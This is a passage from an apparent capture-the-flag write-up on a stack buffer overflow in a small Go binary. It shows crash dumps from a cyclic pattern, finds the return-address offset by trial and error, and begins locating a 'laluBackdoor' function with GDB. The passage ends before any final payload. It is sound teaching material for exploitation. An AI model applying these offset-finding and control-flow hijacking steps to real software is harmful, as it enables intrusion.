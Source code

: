 ```bash
app ./gown
	2024/12/08 03:29:37 /
	Getenv(GOWN) =  Aa0Aa1Aa2Aa3...Ae1Ae
	Received: Aa0Aa1Aa2Aa3...Ae1Ae
	SIGSEGV: segmentation violation
	...
	rbp    0x3363413263413163 # 3cA2cA1c pattern
	rip    0x64a9f3 # not changed
```

First problem: we overwrite the `RBP` register, but not  `RIP`. What is this trickery?
Thankfully the  [ired-team blog on 64-bit buffer overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow#why-is-rip-not-overflowed) gives us the solution on it's "Why is RIP not overflowed?" section:

> In x64, if `RIP` is assigned a too big value outside of the available memory range (capped at `0x00007FFFFFFFFFFF`) , then the register is left unmodified.

So let's  ~~do aclever or automated analysis of the registries offset~~  Totally guess the offset by trial and error by randomly removing characters from our payload.

```bash
app ./gown
	...
	Received: Aa0Aa1Aa2Aa3...1Ac2Ac3Ac4
	SIGSEGV: segmentation violation
	...
	rbp    0x3363413263413163
	rip    0x346341 # 4cA pattern
```

and after a few tries, it just works! We set the `RIP` pointer with 3 bytes we control. It's offset is at:

```bash
echo -n "Aa0Aa1A...c0Ac1Ac2Ac3Ac4" | wc -c
	75
expr 75 - 3 # 3 bytes reserved for the address
	72
```

Now to find the `laluBackdoor` offset! two possible ways:

- Dynamic analysis with GDB

We can install GDB on the docker container, run the binary and set a break point, to see returned the offset.

```bash
b laluBackdoor
	Breakpoint 1 at 0x61eb95 # !! 4 bytes offset!
```

> [!error] warning
> gdb puts the breakpoint 4 bytes AFTER the real start of the method, which will leave you with a surprise (and lot of time loss ) if you don't know it!
